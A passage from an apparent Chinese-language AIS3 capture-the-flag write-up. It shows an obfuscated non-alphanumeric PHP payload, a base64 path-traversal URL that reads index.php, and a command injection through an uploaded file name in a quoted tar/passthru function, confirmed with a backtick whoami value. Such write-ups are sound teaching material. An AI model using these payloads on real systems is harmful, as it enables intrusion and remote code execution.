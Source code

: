 ```php=
[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])]).(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])]).(([]^[]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]).(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]).(([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])]).(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]).(([]^[]).[][[]]^([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]).(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])]).(([]^[[]]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]).(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]).(([]^[]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])]).(([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])]).(([]^[]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])]).(([]^[]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])).(([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])))() ?>
```

![](https://i.imgur.com/EzORIO3.png)

### TariTari

觀察 download url format `http://chals1.ais3.org:9453/download.php?file=MmIyNmRhZWExOTQxNjFjYjMzZWMwYTdmZmM0MzQ2ZmIudGFyLmd6&name=hin2.txt.tar.gz`

將 file 拿去 base64decode 後得到 `2b26daea194161cb33ec0a7ffc4346fb.tar.gz`，可以猜到其中 `2b26daea194161cb33ec0a7ffc4346fb` 為流水號

於是將 `../index.php` 拿去 base64encode 之後存取 url `http://chals1.ais3.org:9453/download.php?file=Li4vaW5kZXgucGhw&name=owo` 即可拿到 index.php，這時候可以看到 MFC 的 flag。

```php
function tar($file)
{
    $filename = $file['name'];
    $path = bin2hex(random_bytes(16)) . ".tar.gz";
    $source = substr($file['tmp_name'], 1);
    $destination = "./files/$path";
    passthru("tar czf '$destination' --transform='s|$source|$filename|' --directory='/tmp' '/$source'", $return);
    if ($return === 0) {
        return [$path, $filename];
    }
    return [FALSE, FALSE];
}
```

繼續觀察 index.php 可以觀察到 $filename 存在 command injection，於是用 burpsuite 抓包後，將檔名改為 '\`whoami\`' 可以發現成功 RCE。

### The Best Login UI
